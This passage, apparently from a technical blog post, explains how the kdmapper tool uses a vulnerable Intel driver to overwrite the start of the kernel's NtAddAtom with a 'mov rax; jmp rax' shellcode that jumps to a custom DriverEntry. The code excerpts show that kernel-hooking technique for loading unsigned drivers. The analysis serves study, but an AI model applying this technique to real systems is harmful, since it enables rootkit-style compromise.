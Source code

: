 Finally it calls your custom DriverEntry.

```cpp
NTSTATUS status = 0;
if (!intel_driver::CallKernelFunction(iqvw64e_device_handle, &status, address_of_entry_point, (PassAllocationAddressAsFirstParam ? realBase : param1), param2)) {
    Log(L"[-] Failed to call driver entry" << std::endl);
    kernel_image_base = realBase;
    break;
}
```
{: file='kdmapper/kdmapper.cpp'}

The method it employs to call custom driver entry in [intel_driver::CallKernelFunction](https://github.com/TheCruZ/kdmapper/blob/30f3282a2c0e867ab24180fccfc15cc9b819ebea/kdmapper/include/intel_driver.hpp#L154) is very common technique in kernel exploit development but still interesting, so let's closer look at it.


Look at the source code below where it constructs shellcode called `kernel_injected_jmp`.

```cpp
uint8_t kernel_injected_jmp[] = { 0x48, 0xb8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xff, 0xe0 };
// Copying original shell code into original_kernel_function to restore NtAddAtom later
uint8_t original_kernel_function[sizeof(kernel_injected_jmp)];
// Replacing 0x00s with DriverEntry's address
*(uint64_t*)&kernel_injected_jmp[2] = kernel_function_address;
```
{: file='kdmapper/include/intel_driver.hpp'}

You might be wondering what is `{ 0x48, 0xb8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xff, 0xe0 }`, here's one by one description.

- `0x48` and `0xb8` represents x64 constant load into `rax` register
- The bunch of `0x00`s are filled with your DriverEntry's address in the last line.
- `0xff` and `0xe0` indicates `jmp rax`

So the shellcode's basically assigning your DriverEntry address into `rax`, then jumping to `rax`.
You can imagine it like this:

```nasm
mov rax, 0xFFFFF80179A3B000 ; suppose this is DriverEntry's address
jmp rax
```

After shellcode construction, it gets `NtAddAtom` from kernel and replace first 12 bytes with the aforementioned shellcode.
By replacing it, when a user calls `NtAddAtom` this kernel mode `NtAddAtom` will eventually be called and the hook will be kicked and it transfers further execution to your DriverEntry.

```cpp
// Getting kernel NtAddAtom's address
static uint64_t kernel_NtAddAtom = GetKernelModuleExport(device_handle, intel_driver::ntoskrnlAddr, "NtAddAtom");

// ...

// Overwrite the pointer with kernel_function_address
if (!WriteToReadOnlyMemory(device_handle, kernel_NtAddAtom, &kernel_injected_jmp, sizeof(kernel_injected_jmp)))
    return false;
```
{: file='kdmapper/include/intel_driver.hpp'}
